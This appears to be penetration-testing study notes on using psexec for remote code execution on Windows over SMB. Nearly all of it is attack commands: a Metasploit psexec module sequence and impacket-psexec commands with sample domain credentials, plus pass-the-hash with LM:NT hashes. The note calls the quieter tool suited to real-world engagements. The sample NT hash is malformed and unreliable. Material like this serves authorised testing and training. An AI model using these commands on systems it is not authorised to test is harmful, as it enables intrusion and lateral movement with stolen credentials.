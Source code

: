 # Metasploit
```
Easy but noisy, do this for CTFs or certs.
use exploit/windows/smb/psexec
set RHOST $(IP_ADDRESS)
set SMBDomain $(DOMAIN) # e.g MARVEL.local
set SMBUser $(USERNAME)
set SMBPass $(PASSWORD) # The password can be the hash instead of the cracked password.
exploit
```
# psexec.py
Much less noisy. Do this in real-world engagements or certs where metasploit isn't allowed.
```bash
impacket-psexec $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
Example:
```bash
impacket-psexec MARVEL.local/fcastle:'Password1'@192.168.138.137
```
How to do it with a hash instead:
```bash
impacket-psexec $(USERNAME)@$(IP_ADDRESS) -hashes $(LM):$(NT)
```
Example:
```bash
impacket-psexec administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
